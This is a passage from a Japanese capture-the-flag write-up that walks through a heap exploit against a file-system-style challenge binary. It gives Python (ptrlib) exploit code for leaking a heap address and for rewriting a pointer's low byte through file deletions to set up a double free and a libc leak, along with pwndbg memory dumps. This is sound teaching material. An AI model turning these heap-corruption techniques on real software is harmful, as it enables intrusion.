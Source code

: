 ```python
    if fname == b'killer': continue
    addr_heap <<= 8
    addr_heap |= int(fname)
change_directory("..")
dump("heap addr = " + hex(addr_heap))

# Change dir:victim to file:victim
remove_file("killer")
add_file("killer", 0x50, b'A' * 0x50 + b'\x02' + b'victim')

#print(list_dir())

sock.interactive()
```

ウェーイ。
```
$ python solve.py 
[+] Process: Successfully created new process (PID=20298)
[ptrlib] heap addr = 0x55cec29ad280
[ptrlib]$ 
--------------------
current dir: root
--------------------
```

さて、ヒープのアドレスが分かったので次はlibcのアドレスです。
そのためにはまずdouble freeしてやるのですが、victimのptrはoffset用の配列として使われている状態なので、ファイルを上手いこと削除することでptrを書き換えることができます。
試しに予め確保しておいた大きなチャンクをfreeするとリークしたアドレスの周辺は次のようになります。
```
pwndbg> x/32xg 0x55c5f0af9280
0x55c5f0af9280:	0x0000000042424242	0x0000000000000000
0x55c5f0af9290:	0x0000000000000000	0x0000000000000000
0x55c5f0af92a0:	0x0000000000000000	0x0000000000000000
0x55c5f0af92b0:	0x0000000000000000	0x0000000000000000
0x55c5f0af92c0:	0x0000000000000000	0x0000000000000000
0x55c5f0af92d0:	0x0000000000000000	0x0000000000000000
0x55c5f0af92e0:	0x0000000000000000	0x0000000000000511
0x55c5f0af92f0:	0x00007fd8bfaa1ca0	0x00007fd8bfaa1ca0
0x55c5f0af9300:	0x0000000000000000	0x0000000000000000
...
pwndbg> x/4wx 0x00007fd8bfaa1ca0
0x7fd8bfaa1ca0 <main_arena+96>:	0xf0af9860	0x000055c5	0x00000000	0x00000000
```
unsorted bin発見！
例えば今の例ではptrに0x55c5f0af9280が入っているわけですが、これを0x55c5f0af92f0にしたいとします。
最下位バイトに相当するファイルを削除すれば最下位バイトは0x00になります。さらに別のディレクトリでファイルを作成すれば、先程削除した場所に確保されます。
さらに0xf0番目のファイルが入っているディレクトリで0xf0番目のファイルを削除して、元のディレクトリに戻って新しいファイルを作成すればptrの最下位バイトが0xf0になるという感じです。

次のような感じです。
```
lsb = addr_heap & 0xff
change_directory("victim")
remove_file(str(lsb))
change_directory("..")
change_directory("dir3")
add_file("consume", 0x50, "Hello")
change_directory("..")
change_directory(which_dir(boundary, (lsb + 0x70) & 0xff))
remove_file(str((lsb + 0x70) & 0xff))
change_directory("..")
change_directory("victim")
add_file("nihao", 0x50, "Hello")
change_directory("..")

```